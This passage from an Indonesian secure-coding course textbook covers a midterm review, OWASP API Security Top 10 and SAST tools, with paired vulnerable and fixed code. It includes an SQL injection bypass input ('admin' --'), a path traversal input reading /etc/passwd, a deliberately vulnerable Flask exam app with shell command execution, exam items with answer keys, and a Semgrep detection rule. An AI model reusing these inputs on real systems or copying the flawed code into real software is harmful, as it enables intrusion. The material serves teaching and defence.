| Input Validation | Apakah semua input divalidasi di sisi server? Whitelist atau blacklist? |
| Output Encoding | Apakah output di-encode sesuai konteks (HTML, SQL, OS, LDAP)? |
| Authentication | Bagaimana identitas diverifikasi? Apakah brute force mungkin? |
| Authorization | Apakah akses diperiksa untuk setiap resource sensitif? |
| Session Management | Bagaimana session dibuat, dirotasi, dan diinvalidasi? |
| Cryptography | Algoritma apa yang digunakan? Apakah ada secret hardcoded? |
| Error Handling | Apakah error message mengekspos informasi sensitif? |
| Logging | Apakah event keamanan di-log? Apakah data sensitif di-log? |
| Dependencies | Apakah ada library dengan kerentanan diketahui? |

### 4.2 Review Komprehensif: Sintesis Bab 1-7

#### Pola Kerentanan yang Sering Muncul Bersamaan

**SQL Injection + Auth Bypass (Kombinasi Mematikan):**
```python
# Kerentanan ganda: SQLi + autentikasi bypass
def login(username, password):
    # SQLi: string concatenation
    query = f"SELECT * FROM users WHERE username='{username}' AND password='{password}'"
    user = db.execute(query).fetchone()
    
    # Jika input: username = "admin' --"
    # Query: SELECT * FROM users WHERE username='admin' --' AND password='...'
    # → Password check di-bypass! Admin tanpa password
```

**XSS + CSRF + Auth (Triple Threat):**
Stored XSS yang mencuri CSRF token dan menggunakannya untuk melakukan aksi CSRF seolah-olah pengguna, memanfaatkan session yang masih valid.

---

## 5. Model atau Arsitektur

### 5.1 Peta Mitigasi Komprehensif



---

## 6. Contoh Terapan

### Soal Latihan UTS: Analisis Kode Komprehensif

**Kode yang Dianalisis:**
```python
from flask import Flask, request, session, jsonify
import sqlite3, subprocess, hashlib

app = Flask(__name__)
app.secret_key = "dev_secret"  # [1]

@app.route('/login', methods=['POST'])
def login():
    username = request.form['username']
    password = request.form['password']
    
    conn = sqlite3.connect('db.sqlite3')
    # [2] Kerentanan?
    user = conn.execute(
        f"SELECT * FROM users WHERE username='{username}' AND password='{hashlib.md5(password.encode()).hexdigest()}'"
    ).fetchone()
    
    if user:
        session['user_id'] = user[0]
        session['role'] = user[3]
    return jsonify({"logged_in": bool(user)})

@app.route('/admin/command', methods=['POST'])
def admin_command():
    # [3] Kerentanan?
    if session.get('role') != 'admin':
        return "Forbidden", 403
    
    cmd = request.form.get('command', '')
    result = subprocess.run(cmd, shell=True, capture_output=True)  # [4]
    return result.stdout

@app.route('/profile/<int:user_id>')
def get_profile(user_id):
    # [5] Kerentanan?
    conn = sqlite3.connect('db.sqlite3')
    profile = conn.execute(
        "SELECT * FROM profiles WHERE user_id = ?", (user_id,)
    ).fetchone()
    return jsonify(profile)
```

**Analisis Komprehensif:**

| # | Kerentanan | CWE | OWASP | Dampak |
|---|---|---|---|---|
| 1 | Hardcoded secret key yang lemah | CWE-321 | A02, A05 | Session forgery |
| 2 | SQL Injection + MD5 password | CWE-89, CWE-327 | A03, A02 | Auth bypass, data exfil |
| 3 | Authorization hanya cek role di session (dapat dimanipulasi) | CWE-862 | A01 | Privilege escalation |
| 4 | OS Command Injection (shell=True) | CWE-78 | A03 | RCE |
| 5 | IDOR — tidak ada cek apakah user_id milik pengguna login | CWE-639 | A01 | Data breach |

---

## 7. Praktikum — Simulasi UTS

**Tugas:** Analisis kode Python/Java/JavaScript yang disediakan dosen (belum diketahui sebelumnya). Identifikasi semua kerentanan, klasifikasikan, dan tulis remediasi lengkap. Waktu: 120 menit.

---

## 8. Latihan Pemahaman (Review UTS)

**Soal 1:** Sebutkan semua kerentanan dalam kode berikut beserta CWE-nya:
```javascript
app.get('/download', (req, res) => {
  const filename = req.query.file;
  const filepath = '/app/reports/' + filename;
  res.sendFile(filepath);
});
```

**Soal 2:** Mengapa `app.secret_key = "dev_secret"` adalah kerentanan keamanan? Apa implikasinya untuk aplikasi Flask?

**Soal 3:** Jelaskan perbedaan antara Authentication (A07) dan Authorization (A01) failure. Berikan contoh konkret untuk setiap jenis failure.

**Soal 4:** Untuk setiap OWASP Top 10 2021 kategori (A01-A10), berikan satu contoh CWE yang paling representatif.

**Soal 5:** Apa yang dimaksud dengan "security misconfiguration" dan bagaimana ini berbeda dari kerentanan dalam kode aplikasi itu sendiri?

---

## 9. Latihan Terapan — Soal UTS Penuh

### Soal UTS Praktis: Audit Kode Aplikasi Web

Diberikan aplikasi web Python Flask lengkap (disediakan saat UTS). Dalam 2 jam:

1. **Identifikasi** semua kerentanan (minimal 5, nilai penuh untuk 8+)
2. **Klasifikasikan** setiap kerentanan (OWASP + CWE + severity CVSS)
3. **Jelaskan** mekanisme eksploitasi untuk 3 kerentanan paling kritis
4. **Tulis kode** remediasi untuk semua kerentanan yang ditemukan
5. **Susun** laporan ringkas (executive summary + technical findings)

**Kriteria Penilaian:**
- Ketepatan identifikasi: 30%
- Kedalaman analisis akar masalah: 25%
- Kualitas kode remediasi: 30%
- Kualitas laporan: 15%

---

## 10. Kunci Jawaban — Soal Review

**Soal 1:** Kerentanan dalam kode `/download`:
(a) **Path Traversal (CWE-22)**: `filename` tidak divalidasi; input `../../etc/passwd` akan membaca file di luar `/app/reports/`. (b) **No Authorization Check (CWE-862)**: Tidak ada pemeriksaan apakah pengguna berhak mengakses file tersebut — siapapun dapat mengunduh file manapun jika tahu namanya.

**Mitigasi:**
```javascript
const path = require('path');
app.get('/download', requireAuth, (req, res) => {
  const filename = req.query.file;
  // Validasi: hanya alphanumeric dan extension yang diizinkan
  if (!/^[a-zA-Z0-9_-]+\.(pdf|xlsx|csv)$/.test(filename)) {
    return res.status(400).send('Invalid filename');
  }
  const filepath = path.resolve('/app/reports/', filename);
  // Pastikan path tidak keluar dari direktori reports
  if (!filepath.startsWith('/app/reports/')) {
    return res.status(403).send('Access denied');
  }
  // Cek apakah file milik pengguna saat ini
  if (!isUserOwnsFile(req.user.id, filename)) {
    return res.status(403).send('Forbidden');
  }
  res.sendFile(filepath);
});
```

---

## 11. Ringkasan Bab

Bab ini mengintegrasikan semua konsep yang dipelajari di Bab 1-7. Analisis kode yang efektif memerlukan: pendekatan sistematis (checklist + STRIDE), pemahaman mendalam tentang bagaimana setiap kategori kerentanan bekerja, kemampuan untuk mengidentifikasi kerentanan dari pola kode, dan kemampuan untuk merekomendasikan mitigasi yang spesifik dan dapat diverifikasi.

---

## 12. Refleksi Profesional

**Pertanyaan Refleksi 1:** Dalam UTS ini Anda diminta menganalisis kode orang lain dan menemukan kerentanan. Dalam konteks profesional, code review keamanan dapat terasa seperti "menghakimi" pekerjaan rekan. Bagaimana Anda melakukan code review yang konstruktif — yang meningkatkan keamanan tanpa menurunkan moral dan produktivitas tim?

**Pertanyaan Refleksi 2:** Kode yang Anda analisis mungkin sudah berjalan di produksi selama bertahun-tahun. Ketika Anda menemukan kerentanan kritis dalam sistem produksi yang aktif, bagaimana proses pengungkapan yang bertanggung jawab di dalam organisasi? Siapa yang perlu diberitahu, dalam urutan apa, dan bagaimana mengkomunikasikan risiko tanpa menimbulkan kepanikan yang tidak perlu?

---


---

# BAB 9 — SECURE API DESIGN DAN REST SECURITY

**Pertemuan:** 9  
**Sub-CPMK:** Sub-CPMK.4  
**CPMK:** CPMK.2, CPMK.3  
**Evaluasi:** Eval-2

---

## 1. Capaian Pembelajaran Bab

Setelah menyelesaikan Bab 9, mahasiswa mampu:

- Menjelaskan OWASP API Security Top 10 2023 dan perbedaannya dari OWASP Web Top 10.
- Mengidentifikasi kerentanan BOLA, Broken Authentication API, Excessive Data Exposure, dan SSRF dalam implementasi REST API.
- Merancang REST API yang mengikuti prinsip keamanan: autentikasi kuat, otorisasi per-resource, rate limiting, input validation, dan minimal data exposure.
- Menerapkan API security testing menggunakan OWASP ZAP dan tools lain.

---

## 2. Peta Konsep Bab

```mermaid
flowchart TD
    APISEC["Secure API Design\n& REST Security"] --> OWASPApi["OWASP API Security\nTop 10 2023"]
    APISEC --> DesignPrinciples["Prinsip Desain\nAPI Aman"]
    APISEC --> AuthZAPI["Autentikasi &\nOtorisasi API"]
    APISEC --> RateLimit["Rate Limiting &\nThrottling"]

    OWASPApi --> API1["API1: BOLA\n(Object Level Auth)"]
    OWASPApi --> API2["API2: Broken Auth\n(API keys, JWT)"]
    OWASPApi --> API3["API3: Broken Object\nProperty Auth"]
    OWASPApi --> API4["API4: Unrestricted\nResource Consumption"]
    OWASPApi --> API5["API5: Broken Function\nLevel Auth"]
    OWASPApi --> API6["API6: Unrestricted\nSensitive Business Flows"]
    OWASPApi --> API8["API8: Security\nMisconfiguration"]

    DesignPrinciples --> InputVal["Strict Input Validation\n(JSON Schema, Pydantic)"]
    DesignPrinciples --> MinExposure["Minimal Data Exposure\n(DTO, field selection)"]
    DesignPrinciples --> Versioning["API Versioning\n(v1, v2 deprecation)"]

    AuthZAPI --> APIKey["API Key + HMAC\nSignature"]
    AuthZAPI --> JWTApi["JWT Short-lived\n(15 min access)"]
    AuthZAPI --> OAuth2Api["OAuth 2.0\nScopes"]

    RateLimit --> PerUser["Per-user limits"]
    RateLimit --> PerEndpoint["Per-endpoint limits"]
    RateLimit --> GlobalLimit["Global rate limit"]
```

---

## 3. Pengantar Kontekstual

API telah menjadi lapisan komunikasi utama di era modern: mobile app berkomunikasi via REST API, microservices saling memanggil via gRPC/REST, SaaS mengekspos API publik. Namun paradigma "API sebagai produk" membawa tantangan keamanan unik yang tidak sepenuhnya tercakup oleh OWASP Web Top 10.

OWASP merilis API Security Top 10 secara terpisah karena kerentanan API memiliki karakteristik berbeda: tidak ada browser sebagai lapisan keamanan tambahan, API biasanya mengekspos data lebih langsung (JSON daripada HTML yang di-render), dan API sering diakses oleh mesin (bukan manusia) sehingga rate limiting dan behavioral analysis lebih sulit.

---

## 4. Landasan Teori

### 4.1 OWASP API Security Top 10 2023

#### API1: Broken Object Level Authorization (BOLA) / IDOR

Kerentanan paling umum dalam API. Server tidak memvalidasi apakah pengguna yang melakukan request berhak mengakses objek yang diminta.

```python
# RENTAN — BOLA/IDOR
@app.route('/api/orders/<int:order_id>', methods=['GET'])
def get_order(order_id):
    order = db.query(Order).get(order_id)  # Mengambil order berdasarkan ID
    return jsonify(order.to_dict())
    # Jika user A login dan request /api/orders/999 (milik user B) → data bocor!

# AMAN — Verifikasi kepemilikan
@app.route('/api/orders/<int:order_id>', methods=['GET'])
@jwt_required
def get_order(order_id):
    current_user_id = get_jwt_identity()
    order = db.query(Order).filter_by(
        id=order_id, 
        user_id=current_user_id  # Pastikan order milik user yang login
    ).first()
    
    if order is None:
        abort(404)  # 404, bukan 403, untuk mencegah oracle enumeration
    
    return jsonify(order.to_dict())
```

#### API3: Broken Object Property Level Authorization (Mass Assignment)

```python
# RENTAN — Mass Assignment
@app.route('/api/users/<int:user_id>', methods=['PATCH'])
def update_user(user_id):
    data = request.get_json()
    user = User.query.get(user_id)
    # Update semua field yang dikirim tanpa whitelist!
    for key, value in data.items():
        setattr(user, key, value)  # Penyerang bisa kirim: {"is_admin": true}
    db.session.commit()

# AMAN — Explicit field whitelist
from pydantic import BaseModel

class UserUpdateSchema(BaseModel):
    name: str | None = None
    email: str | None = None
    phone: str | None = None
    # is_admin TIDAK ada di sini — tidak bisa diubah via endpoint ini

@app.route('/api/users/<int:user_id>', methods=['PATCH'])
@jwt_required
def update_user(user_id):
    data = UserUpdateSchema(**request.get_json())  # Validasi dengan Pydantic
    user = User.query.get(user_id)
    # Hanya update field yang diizinkan
    if data.name: user.name = data.name
    if data.email: user.email = data.email
    db.session.commit()
```

#### API4: Unrestricted Resource Consumption

```python
# RENTAN — Tidak ada rate limiting atau pagination limit
@app.route('/api/search')
def search():
    query = request.args.get('q', '')
    limit = int(request.args.get('limit', 1000000))  # User bisa minta semua data!
    results = db.query(Product).filter(Product.name.ilike(f'%{query}%')).limit(limit).all()
    return jsonify([r.to_dict() for r in results])

# AMAN — Rate limiting + pagination
from flask_limiter import Limiter

limiter = Limiter(app, key_func=get_remote_address)

@app.route('/api/search')
@limiter.limit("100/minute")
def search():
    query = request.args.get('q', '')
    page = max(1, int(request.args.get('page', 1)))
    per_page = min(100, int(request.args.get('per_page', 20)))  # Max 100
    
    results = db.query(Product).filter(
        Product.name.ilike(f'%{query}%')
    ).paginate(page=page, per_page=per_page)
    
    return jsonify({
        "data": [r.to_dict() for r in results.items],
        "total": results.total,
        "pages": results.pages,
        "page": results.page
    })
```

### 4.2 API Authentication Patterns

**API Key + Signature (untuk Server-to-Server):**
```python
import hmac, hashlib, time

def verify_api_signature(request):
    api_key = request.headers.get('X-API-Key')
    timestamp = request.headers.get('X-Timestamp')
    signature = request.headers.get('X-Signature')
    
    # Cek timestamp untuk mencegah replay attack (±5 menit)
    if abs(time.time() - float(timestamp)) > 300:
        return False, "Request expired"
    
    # Rekonstruksi pesan yang ditandatangani
    message = f"{request.method}\n{request.path}\n{timestamp}\n{request.get_data(as_text=True)}"
    
    # Ambil secret dari database berdasarkan API key
    secret = get_api_secret(api_key)
    if not secret:
        return False, "Invalid API key"
    
    # Verifikasi HMAC-SHA256
    expected = hmac.new(secret.encode(), message.encode(), hashlib.sha256).hexdigest()
    
    if not hmac.compare_digest(expected, signature):
        return False, "Invalid signature"
    
    return True, None
```

---

## 5. Model atau Arsitektur

### 5.1 API Security Layers



---

## 6. Contoh Terapan

### Studi Kasus: REST API E-Commerce — Audit Keamanan

**Konteks:** Platform e-commerce memiliki REST API yang digunakan oleh mobile app.

**Endpoint bermasalah yang ditemukan:**
```
GET  /api/v1/users/{user_id}/orders          → BOLA
POST /api/v1/users/{user_id}                 → Mass Assignment  
GET  /api/v1/products?page=1&per_page=999999 → Resource Exhaustion
GET  /api/v1/internal/admin/stats            → Broken Function Auth
POST /api/v1/checkout                        → No Rate Limiting (Business Flow)
```

**Dampak:**
- BOLA: Setiap pengguna dapat membaca order semua pengguna lain — mencakup nama, alamat, riwayat pembelian
- Mass Assignment: Pengguna dapat meningkatkan akun sendiri menjadi admin
- Resource Exhaustion: Single request dapat menghabiskan server memory/CPU
- Broken Function Auth: Endpoint admin dapat diakses oleh pengguna biasa
- Checkout tanpa rate limit: dapat digunakan untuk card testing (mencoba ribuan kartu kredit curian)

---

## 7. Praktikum — API Security Testing

**Tujuan:** Mengidentifikasi kerentanan API menggunakan OWASP ZAP dalam mode yang diotorisasi.

**Tools:** OWASP ZAP 2.15, API target lokal (WebGoat REST API modul)

**Prosedur:**
1. Import OpenAPI/Swagger spec target ke ZAP
2. Konfigurasi autentikasi (JWT/session)
3. Jalankan Active Scan dengan context yang tepat
4. Review temuan: identifikasi BOLA, mass assignment, information exposure
5. Dokumentasikan temuan dalam format laporan kerentanan standar

**Lingkungan:** Lab lokal (localhost:8080/WebGoat) — tidak ada scanning terhadap sistem eksternal atau production.

---

## 8. Latihan Pemahaman

**Soal 1 (PG):** BOLA (API1) berbeda dari IDOR web biasa karena:
A. BOLA hanya memengaruhi endpoint GET, bukan POST  
B. BOLA lebih mudah dieksploitasi karena API biasanya mengekspos ID objek secara langsung  
C. BOLA tidak dapat terjadi jika API menggunakan JWT  
D. BOLA adalah versi baru dari SQL Injection

**Soal 2 (PG):** "Mass Assignment" terjadi karena:
A. Terlalu banyak data dikirim ke database dalam satu request  
B. Aplikasi memetakan properti request langsung ke objek model tanpa whitelist  
C. Server tidak memiliki rate limiting  
D. API key terlalu panjang

**Soal 3 (Analisis):** Mengapa menggunakan UUIDs (seperti `550e8400-e29b-41d4-a716-446655440000`) sebagai identifier API alih-alih integer sequential (seperti `1, 2, 3`) dapat mempersulit BOLA, meskipun tidak sepenuhnya mencegahnya?

**Soal 4 (Desain):** Rancang skema autentikasi untuk API B2B (business-to-business) yang digunakan oleh partner eksternal. Pertimbangkan: bagaimana partner mengautentikasi (API key? OAuth?), bagaimana mencegah replay attack, dan bagaimana merotasi credentials tanpa downtime.

**Soal 5 (Kasus):** Sebuah API menyediakan endpoint `GET /api/export/all-users` yang mengeksport seluruh database pengguna dalam format CSV. Apa semua kerentanan potensial pada desain ini?

---

## 9. Latihan Terapan / Studi Kasus

### Studi Kasus: Desain API Kesehatan (Healthcare)

Sebuah rumah sakit mengembangkan REST API untuk aplikasi rekam medis elektronik. Data yang dikelola: rekam medis pasien (sangat sensitif), jadwal dokter, hasil laboratorium, resep obat.

**Arsitektur yang ada:**
- Endpoint: `GET /api/records/{patient_id}` (semua rekam medis)
- Autentikasi: Basic Auth (username:password di header)
- Tidak ada rate limiting
- Semua error menampilkan stack trace lengkap
- Tidak ada versioning API

**Pertanyaan:**
1. **Identifikasi Risiko (C4)**: Identifikasi minimal 5 risiko keamanan pada desain API ini. Untuk setiap risiko: jelaskan kerentanan, dampak pada pasien/rumah sakit, klasifikasi OWASP API, dan prioritas remediasi.

2. **Rancang API Aman (C4-C5)**: Rancang ulang API untuk rekam medis yang memenuhi standar keamanan healthcare. Sertakan: skema autentikasi, model otorisasi (siapa bisa akses rekam medis siapa), rate limiting, error handling, dan audit logging. Pertimbangkan regulasi: UU ITE, UU Kesehatan, dan analogi HIPAA dalam konteks Indonesia.

---

## 10. Kunci Jawaban dan Pembahasan

**Soal 1 — B:** API mengekspos ID objek secara langsung dalam URL (`/api/orders/12345`), bukan di-render dalam HTML yang sulit diekstrak. Pengujian BOLA di API sangat sederhana: cukup ubah angka ID dalam request. JWT tidak mencegah BOLA — JWT membuktikan identitas, bukan otorisasi per-objek. BOLA berlaku untuk semua HTTP methods (GET, PUT, DELETE).

**Soal 3:** UUID v4 adalah acak (122 bit entropy) — tidak ada pola untuk menebak ID berikutnya. Integer sequential (1, 2, 3) memungkinkan penyerang dengan mudah mengiterasi (`for i in range(1, 10000): try /api/orders/{i}`). Namun UUID tidak mencegah BOLA sepenuhnya: jika penyerang mendapat UUID dari sumber lain (log yang bocor, request intercepting sesama pengguna), mereka masih bisa mencoba mengaksesnya. Perlindungan sesungguhnya tetap ada di otorisasi server-side.

---

## 11. Ringkasan Bab

API security memerlukan pertahanan berlapis: BOLA (verifikasi kepemilikan objek per-request), mass assignment (whitelist field yang bisa dimodifikasi), resource exhaustion (rate limiting + pagination limit), broken function auth (verifikasi role untuk endpoint admin), dan SSRF. Autentikasi API yang kuat menggunakan JWT short-lived atau API key + HMAC signature untuk server-to-server. Semua API production harus memiliki: dokumentasi OpenAPI, rate limiting, proper error handling (tanpa stack trace), dan audit logging.

---

## 12. Refleksi Profesional

**Pertanyaan Refleksi 1:** API publik seringkali mendokumentasikan endpoint-nya secara terbuka (Swagger/OpenAPI). Ini memudahkan developer untuk integrasi, tetapi juga memberikan peta jalan kepada penyerang. Bagaimana Anda menyeimbangkan kebutuhan dokumentasi yang baik untuk developer dengan kebutuhan untuk tidak mengekspos terlalu banyak informasi kepada penyerang?

**Pertanyaan Refleksi 2:** Deprecated API version sering kali tidak segera dihapus karena ada partner/klien yang masih menggunakannya. Bagaimana Anda mengelola lifecycle keamanan API — memastikan versi lama mendapat security patch, memonitor penggunaan versi deprecated, dan akhirnya memaksa migrasi ke versi baru?

---

# BAB 10 — STATIC APPLICATION SECURITY TESTING (SAST)

**Pertemuan:** 10  
**Sub-CPMK:** Sub-CPMK.4  
**CPMK:** CPMK.2, CPMK.3  
**Evaluasi:** Eval-4

---

## 1. Capaian Pembelajaran Bab

Setelah menyelesaikan Bab 10, mahasiswa mampu:

- Menjelaskan cara kerja SAST (taint analysis, data flow analysis, pattern matching) dan batasannya.
- Mengkonfigurasi dan menjalankan SonarQube, Semgrep, dan CodeQL untuk analisis kerentanan.
- Menginterpretasikan laporan SAST: membedakan true positive dari false positive.
- Mengintegrasikan SAST ke dalam CI/CD pipeline sebagai security gate.

---

## 2. Peta Konsep Bab

```mermaid
flowchart TD
    SAST2["SAST\nStatic Application Security Testing"] --> Mechanism["Mekanisme Analisis"]
    SAST2 --> Tools2["Tools Populer"]
    SAST2 --> Interpretation["Interpretasi\nHasil"]
    SAST2 --> CICD2["Integrasi\nCI/CD"]

    Mechanism --> Taint["Taint Analysis\n(Source → Sink Tracking)\n• Source: user input\n• Sink: dangerous function\n• Taint: belum di-sanitasi"]
    Mechanism --> DataFlow["Data Flow Analysis\n(Inter-procedural)"]
    Mechanism --> Pattern["Pattern/Regex Matching\n(Semgrep rules)"]
    Mechanism --> AST["AST-based Analysis\n(Abstract Syntax Tree)"]

    Tools2 --> SonarQube["SonarQube\n• Community/Enterprise\n• 30+ bahasa\n• Quality gate rules"]
    Tools2 --> Semgrep["Semgrep\n• SAST + rules\n• OSS + Pro rules\n• Fast, CI-friendly"]
    Tools2 --> CodeQL["CodeQL (GitHub)\n• Query-based analysis\n• Deep inter-procedural\n• CWE mapping"]

    Interpretation --> TP["True Positive\n(Kerentanan nyata)"]
    Interpretation --> FP["False Positive\n(Bukan kerentanan)"]
    Interpretation --> FN["False Negative\n(Kerentanan yang terlewat)"]

    CICD2 --> QualityGate["Quality Gate:\n0 Critical/High\nbaru boleh merge ke main"]
```

---

## 3. Pengantar Kontekstual

SAST menganalisis kode sumber (atau bytecode) tanpa menjalankan aplikasi — itulah kelebihan utamanya: dapat dilakukan sejak kode ditulis (shift-left), dapat memeriksa semua code path (termasuk yang jarang dieksekusi), dan dapat berjalan otomatis di setiap commit.

Namun SAST memiliki keterbatasan inherent: false positive yang tinggi (dilaporkan sebagai kerentanan padahal bukan), dan false negative untuk kerentanan yang memerlukan pemahaman runtime (seperti kerentanan konfigurasi, atau logika bisnis yang kompleks).

---

## 4. Landasan Teori

### 4.1 Taint Analysis — Cara Kerja Inti SAST

Taint analysis melacak aliran data dari **source** (sumber input tidak terpercaya) ke **sink** (fungsi berbahaya) melalui **propagator** (fungsi yang meneruskan taint), mencari jalur di mana data tidak pernah di-sanitasi.

```
Source    → input tidak terpercaya: request.form, request.args, os.environ, 
                                      database query result dari user-controlled data

Propagator → fungsi yang meneruskan taint: str concatenation, format strings, 
                                            fungsi yang return value dari tainted input

Sink      → fungsi berbahaya: 
            SQL: db.execute(), cursor.execute()
            OS:  subprocess.run(shell=True), os.system()
            HTML: render_template_string(), innerHTML
            File: open() dengan path dari user input
```

**Contoh Taint Analysis:**
```python
# SAST dapat melacak aliran ini:
def process(user_input):        # user_input = Source (tainted)
    cleaned = user_input.strip()  # cleaned masih tainted (strip tidak sanitize)
    result = f"SELECT * FROM t WHERE name = '{cleaned}'"  # string concat = propagator
    db.execute(result)            # db.execute = Sink → ALERT: SQL Injection!

# SAST tidak akan alert untuk ini (taint di-sanitize):
def process_safe(user_input):
    param = db.execute("SELECT * FROM t WHERE name = ?", (user_input,))
    # Sink menggunakan parameterized query → taint tidak mencapai sink langsung
```

### 4.2 SonarQube

SonarQube adalah platform code quality dan security analysis yang paling banyak digunakan di enterprise.

**Instalasi dan Penggunaan (Docker untuk Lab):**
```bash
# Jalankan SonarQube Community Edition (untuk lab)
docker run -d --name sonarqube \
  -p 9000:9000 \
  -e SONAR_ES_BOOTSTRAP_CHECKS_DISABLE=true \
  sonarqube:10-community

# Tunggu hingga siap: http://localhost:9000 (admin/admin)

# Analisis proyek Python
pip install sonar-scanner
sonar-scanner \
  -Dsonar.projectKey=my-project \
  -Dsonar.sources=. \
  -Dsonar.host.url=http://localhost:9000 \
  -Dsonar.login=<token>
```

**Quality Gate — Security:**
SonarQube menggunakan kondisi Quality Gate untuk memblokir merge:
```
Condition: No new issues with severity CRITICAL or BLOCKER
→ Pull Request yang menambahkan kerentanan baru TIDAK bisa di-merge
```

### 4.3 Semgrep

Semgrep memungkinkan penulisan custom rules dalam format YAML yang ekspresif.

```yaml
# Custom Semgrep rule: deteksi shell=True dalam subprocess
rules:
  - id: subprocess-shell-true
    patterns:
      - pattern: subprocess.run(..., shell=True, ...)
      - pattern: subprocess.call(..., shell=True, ...)
      - pattern: subprocess.Popen(..., shell=True, ...)
    message: "subprocess with shell=True is vulnerable to command injection. Use shell=False with list args."
    severity: ERROR
    languages: [python]
    metadata:
      cwe: CWE-78
      owasp: A03
```

```bash
# Jalankan Semgrep
semgrep --config=auto .                 # Gunakan rules bawaan
semgrep --config=./rules/ .             # Custom rules
semgrep --config=p/owasp-top-ten .      # OWASP Top 10 ruleset
```

### 4.4 CodeQL

CodeQL (dikembangkan GitHub) menggunakan bahasa query untuk menganalisis kode sebagai database.

```ql
// CodeQL query: SQL Injection di Python
import python
import semmle.python.security.dataflow.SqlInjection

from SqlInjection::Configuration config, 
     DataFlow::PathNode source, DataFlow::PathNode sink
where config.hasFlowPath(source, sink)
select sink.getNode(), source, sink, 
       "SQL query is constructed from a $@.", 
       source.getNode(), "user-controlled value"
```

### 4.5 Mengelola False Positive

False positive tidak bisa dihilangkan sepenuhnya, tetapi harus dikelola:

```python
# Semgrep: suppress false positive dengan komentar
result = subprocess.run(
    ["ls", "-la", safe_fixed_path],  # nosec  ← suppress rule di baris ini
    shell=False
)

# SonarQube: mark as "Won't Fix" atau "False Positive" di UI
# dengan wajib memberikan alasan/justifikasi

# Pendekatan terbaik: dokumentasikan mengapa false positive
# dan pertimbangkan apakah benar-benar false positive
```

**Metrik Kualitas SAST:**
- **Precision** = TP / (TP + FP) → berapa persen alert adalah kerentanan nyata
- **Recall** = TP / (TP + FN) → berapa persen kerentanan nyata ditemukan
- SAST biasanya: precision rendah-menengah (banyak FP), recall bervariasi

---

## 5. Model atau Arsitektur

### 5.1 SAST dalam Pipeline DevSecOps

```mermaid
flowchart LR
    Dev2["Developer\nPush Code"] --> PR["Pull Request\nCreated"]
    PR --> SAST3["SAST Scan\n(Semgrep, SonarQube)"]
    SAST3 --> Gate{"Quality\nGate\nPassed?"}
    Gate -->|"Yes: 0 Critical/High"| Review2["Code Review\n(Human)"]
    Gate -->|"No: Critical found"| Block["PR Blocked\nDeveloper must fix"]
    Block --> Dev2
    Review2 --> Merge["Merge to main"]
    Merge --> Full["Full Scan\n(CodeQL nightly)"]
    Full --> Report2["Security Report\nto Security Team"]
```

---

## 6. Contoh Terapan

### Studi Kasus: Implementasi SAST di Tim Startup

